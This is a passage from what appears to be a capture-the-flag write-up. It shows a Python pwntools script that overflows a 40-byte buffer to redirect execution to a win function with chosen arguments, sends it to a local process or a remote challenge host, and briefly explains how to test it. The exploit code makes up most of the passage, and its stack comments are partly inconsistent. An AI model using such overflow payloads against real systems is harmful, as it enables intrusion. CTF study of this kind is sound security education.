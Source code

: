 ```python
payload = b"A"*40
payload += win_addr
payload += p32(0x41)
payload += p32(1) * 1
payload += p32(0x23)
"""

# Because all function args is placed into the stack.
# [     5     ] = function arg2 / ebp + 0xc
# [     7     ] = function arg1 / ebp + 0x8
# [ alignment ] = stack alignment / caller function
# [    ret    ] = win_addr / getFlag / ebp + 0x4
# [  old rbp  ] = 0x4
# [   buffer  ] = 0x24 / ebp - 0x4

# 2. Send the payload
is_remote = False # change to True if you want to run remotely.

if is_remote:
    io = remote("challenge.ctf.games", 30300)
else:
    io = elf.process()

io.sendline(payload)
io.interactive()
```
{% endcode %}

* Create a sample `flag.txt` file in your folder to execute the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
* And we got the flag.

<figure><img src="../.gitbook/assets/img06.png" alt=""><figcaption><p>07_fourth-flag</p></figcaption></figure>
